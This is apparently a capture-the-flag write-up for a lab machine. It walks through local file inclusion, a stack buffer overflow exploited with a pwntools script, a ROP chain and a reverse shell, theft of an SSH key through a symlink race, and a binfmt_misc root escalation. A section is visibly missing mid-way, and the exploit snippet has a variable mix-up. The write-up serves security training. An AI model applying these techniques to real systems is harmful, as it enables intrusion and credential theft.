









The page talks about uploading a license file of 512 bytes to get into the beta program. When pressing the SUBMIT button we note that it is sending a POST request to activate_license.php.
#LFI
So it seems that index.php is loading html pages from the ?page= parameter as we can see above. We can try to load some internal system files:
http://10.10.11.154/index.php?page=/etc/passwd
So here we have our local-file-inclusion vulnerability.
Now lets see how the activate_license.php file works when we press the "SUBMIT" button:
/index.php?page=/var/www/html/activate_license.php
Based on the source-code, it is loading the file we submit and sending the file size and file content to a service running on 127.0.0.1 - port 1337. But what is this application running on that port?
Since we have a LFI vulnerability we can bruteforce the directory /proc/[PID]/maps to find out the applications running on the target.
Using this technique we can find not only files and binaries running in the system but its memory address as well. I will use Burp Intruder module to do this task.
We set the payload position like that:

And set the payload to sequential numbers like that:

So we will bruteforce PIDs from 1-500 and see if we get anything interesting:

We found a activate_license binary running on PID 424.
We can read the /proc/424/cmdline to check if the binary was started with arguments:
/usr/bin/activate_license 1337
Yes, it seems to be the service running on port 1337 which receives the file we submit on the beta.html page.
Looking at the activate_license binary using Ghidra we can see 2 interesting functions.
main()
activate_license()
The main function starts a listening socket for incoming connections on a specified port. At the end it calls a function named activate_license():
main()
main
int main(int argc,char **argv)
{
int iVar1;
__pid_t _Var2;
int *piVar3;
char *pcVar4;
char clientaddr_s [16];
sockaddr_in clientaddr;
socklen_t clientaddrlen;
sockaddr_in server;
uint16_t port;
int clientfd;
int serverfd;
if (argc != 2) {
error("specify port to bind to");
}
iVar1 = __isoc99_sscanf(argv[1],&DAT_00102100,&port);
if (iVar1 == -1) {
piVar3 = __errno_location();
pcVar4 = strerror(*piVar3);
error(pcVar4);
}
printf("[+] starting server listening on port %d\n",(uint)port);
server.sin_family = 2;
server.sin_addr = htonl(0x7f000001);
server.sin_port = htons(port);
serverfd = socket(2,1,6);
if (serverfd == -1) {
piVar3 = __errno_location();
pcVar4 = strerror(*piVar3);
error(pcVar4);
}
iVar1 = bind(serverfd,(sockaddr *)&server,0x10);
if (iVar1 == -1) {
piVar3 = __errno_location();
pcVar4 = strerror(*piVar3);
error(pcVar4);
}
iVar1 = listen(serverfd,100);
if (iVar1 == -1) {
piVar3 = __errno_location();
pcVar4 = strerror(*piVar3);
error(pcVar4);
}
puts("[+] listening ...");
while( true ) {
while( true ) {
clientfd = accept(serverfd,(sockaddr *)&clientaddr,&clientaddrlen);
if (clientfd != -1) break;
fwrite("Error: accepting client\n",1,0x18,stderr);
}
inet_ntop(2,&clientaddr.sin_addr,clientaddr_s,0x10);
printf("[+] accepted client connection from %s:%d\n",clientaddr_s,(uint)clientaddr.sin_port);
_Var2 = fork();
if (_Var2 == 0) break;
__sysv_signal(0x11,(__sighandler_t)0x1);
close(clientfd);
}
close(serverfd);
activate_license(clientfd);
/* WARNING: Subroutine does not return */
exit(0);
}
Based on the source code analysis, the first thing that called my attention was the 512 bytes buffer variable which matches with the website description of the license file size expected.
The logic in the activate_license code seems to be:
Checks if the file size is valid and store it into a variable msglen
Reads msglen amount of bytes from the file contents and allocate into the buffer
If we could manipulate the file size to something bigger then 512(buffer size) we could potentially overwrite some addresses. Here we have a buffer overflow.
Continuing in the code logic, we see that it is writing the file contents to a database file.
iVar1 = sqlite3_open("license.sqlite",&db);
Using the LFI we can find the database file license.sqlite. Lets download to analyse it:
Looking at the db file locally using sqlitebrowser we see one entry of 512 A's:

It is writing 512 bytes to the database file, probably if we send 512+ bytes, the extra length will start to overwrite the memory address.
#Buffer Overflow
What do we know so far?
Buffer is 512+ bytes
Based on an analysis of activate_license.php for a valid POST request we need to send the license_size as 32 bit, big endian byte order before the content.
#Finding the RIP
To find the RIP (rewrite point) we will create a cyclic pattern to identify how many characters we need to cause the buffer overflow.
Lets run the binary using gdb and start creating an exploit skeleton:
$ gdb activate_license
pwndbg> r 1337
Starting program: /home/caue/htb/retired/activate/activate_license 1337
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[+] starting server listening on port 1337
[+] listening ...
Exploit skeleton:
from pwn import *
io = remote('127.0.0.1', 1337)
filesize = p32(800, endian='big') # We need to pack as 32 bit big endian
payload = [
size,
cyclic(1000) # Create a 1000 characters pattern
]
payload = b"".join(payload)
io.send(payload)
Running the exploit script we get a segmentation fault in the binary:

Now we look at what value has settled in the RSP register, and calculate the offset to RIP.
Let's check that we can actually overwrite the return address with an arbitrary value. To do this, we will write a simple Python script that will send 520 A's + 0xd34dc0d3 and check the RIP address:
Once again, start the binary with gdb and run the python exploit:
Perfect!
#Exploit plan
Before we continue lets check the binary protections:
$ checksec --file activate_license
[*] '/home/caue/htb/retired/activate/activate_license'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: No canary found
NX: NX enabled
PIE: PIE enabled
We need to find a way to bypass NX. The most common way is doing a return-to-libc attack but in our case it will not work as we need a reverse shell call back.
However, there is a technique that calls mprotect from the libc to change the stack mode into executable. So we can inject shellcode into the stack and get a reverse shell.
#Local - Buffer Overflow
Based on the binary protections we can see above, we will not be able to execute shellcode in the stack because of the NX protection. However, there is a couple ways to circunvent that, one of them is a called "ret-to-mprotect" technique.
Basically we can use mprotect to set the stack executable again. For that, we will need some memory addresses to build a ROP chain.
We can use GDB to load the binary and take a look at the memory addresses used. But first, I will turn ASLR off so it makes easier to build our exploit:
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
Load the binary into GDB:
$ gdb activate_license
Run the binary to listen on port 1337:
pwndbg> r 1337
Now we can simply press CTRL + C to pause the execution and have a look at the addresses used with vmmap:

To build our ROP chain we will need the following address, where the arrows are pointing:
Libc base: 0x7ffff7c79000
Stack base: 0x7ffffffde000
Stack end: 0x7ffffffff000
With this addresses plus some gadgets we can make some system calls reusing small pieces of code, this technique is called ROP.
#Finding the gadgets
In order to achieve code execution we will need the following gadgets:
pop rdi
pop rsi
pop rdx
mprotect
jmp rsp
Make a copy of the libc used by the binary and use ropper to find the gadgets needed:

With all the addresses above we just need a shellcode to be executed after the jmp rsp call. We can use msfvenom to create a reverse shell
Terminal 1: GDB running the binary locally on port 1337
Terminal 2: Running the python exploit
Terminal 3: Netcat listener on port 1234

After running the python script we get our reverse shell back:
caue@kali:~/htb/retired/activate$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.1.104] from (UNKNOWN) [192.168.1.104] 41374
id
uid=1000(caue) gid=1000(caue) groups=1000(caue),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(wireshark),121(bluetooth),131(scanner),139(kaboxer)
Perfect, it works locally, now we need to apply that to the target!
#Remote - Buffer Overflow
In order to exploit this binary remotely we will need to update the exploit to match the target environment.
#Updating the addresses
The first thing we need to do is using the LFI to download the libraries used with the binary so we can extract the addresses needed for the ROP chain.
Looking at the http://10.10.11.154/index.php?page=/proc/424/maps we can see the libraries loaded:

We can focus on these 2 libraries highlighted above and the stack address.
We will use libc-2.31.so to extract most of the addresses for the ROP chain, however we will need a jmp rsp address that it does not exist in this library. Thats when libsqlite3.so.0.8.6 comes in handy. Also the stack start, stack end will be used.
It is a racing condition as the webbackup script will do a cleanup before zipping the files. We need to constantly being creating this symbolic link when the time comes.
www-data@retired:/var/www/html$ ln -s /home/dev/.ssh/id_rsa dev_key
ln: failed to create symbolic link 'dev_key': File exists
www-data@retired:/var/www/html$ ln -s /home/dev/.ssh/id_rsa dev_key
ln: failed to create symbolic link 'dev_key': File exists
...
...
Until finally the script is triggered and we can unzip the backup file containing the user ssh key:
caue@kali:~/htb/retired$ ssh -i dev.idrsa dev@10.10.11.154
The authenticity of host 10.10.11.154 (10.10.11.154) cant be established.
ED25519 key fingerprint is SHA256:yJ9p3p5aZFrQR+J2qeIQ54gY9gQ7kcEbymYQBvP5PdY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.154' (ED25519) to the list of known hosts.
Linux retired 5.10.0-11-amd64 #1 SMP Debian 5.10.92-2 (2022-02-28) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Mar 28 11:36:17 2022 from 10.10.14.23
dev@retired:~$
#Privilege escalation 2
As we SSH in as dev we see some interesting files and fodlers in the home directory:
dev@retired:~$ ls -la
total 40
drwx------ 6 dev dev 4096 Mar 11 14:36 .
drwxr-xr-x 3 root root 4096 Mar 11 14:36 ..
lrwxrwxrwx 1 root root 9 Oct 13 2021 .bash_history -> /dev/null
-rw------- 1 dev dev 220 Aug 4 2021 .bash_logout
-rw------- 1 dev dev 3526 Aug 4 2021 .bashrc
drwxr-xr-x 3 dev dev 4096 Mar 11 14:36 .local
-rw------- 1 dev dev 807 Aug 4 2021 .profile
drwx------ 2 dev dev 4096 Mar 11 14:36 .ssh
drwx------ 2 dev dev 4096 Mar 11 14:36 activate_license
drwx------ 3 dev dev 4096 Mar 11 14:36 emuemu
-rw-r----- 1 root dev 33 Apr 29 04:03 user.txt
The emuemu directory:
dev@retired:~/emuemu$ ls -la
total 68
drwx------ 3 dev dev 4096 Mar 11 14:36 .
drwx------ 6 dev dev 4096 Mar 11 14:36 ..
-rw------- 1 dev dev 673 Oct 13 2021 Makefile
-rw------- 1 dev dev 228 Oct 13 2021 README.md
-rw------- 1 dev dev 16608 Oct 13 2021 emuemu
-rw------- 1 dev dev 168 Oct 13 2021 emuemu.c
-rw------- 1 dev dev 16864 Oct 13 2021 reg_helper
-rw------- 1 dev dev 502 Oct 13 2021 reg_helper.c
drwx------ 2 dev dev 4096 Mar 11 14:36 test
The emuemu binary is also found at /usr/lib/emuemu/:
dev@retired:~$ ls -la /usr/lib/emuemu/
total 28
drwxr-xr-x 2 root root 4096 Mar 11 14:36 .
drwxr-xr-x 54 root root 4096 Mar 28 11:12 ..
-rwxr-x--- 1 root dev 16864 Oct 13 02:59 reg_helper
We can read the source-code, not very interesting though:
emuemu.c
#include <stdio.h>
/* currently this is only a dummy implementation doing nothing */
int main(void) {
puts("EMUEMU is still under development.");
return 1;
}
We also see a reg_helper binary there and we can have a look at the source-code. The interesting part here is that this file is owned by root! /home/dev/emuemu/reg_helper.c:
It seems that the reg_helper is using /proc/sys/fs/binfmt_misc/register to run some commands. At first I didn't know much about binfmt_misc so I did a bit of research and learn the basics of usage.
Based on Wikipedia, binfmt_misc (Miscellaneous Binary Format) is a capability of the Linux kernel which allows arbitrary executable file formats to be recognized and passed to certain user space applications, such as emulators and virtual machines.It is one of a number of binary format handlers in the kernel that are involved in preparing a user-space program to run.
So files that starts with that "magic" signature will be interpreted by /usr/bin/emuemu.
#Road to root
During my research I found this github repository which is a POC to exploit this functionality.
We can make a copy of that and do some modifications to make it work for us.
Modify the last line: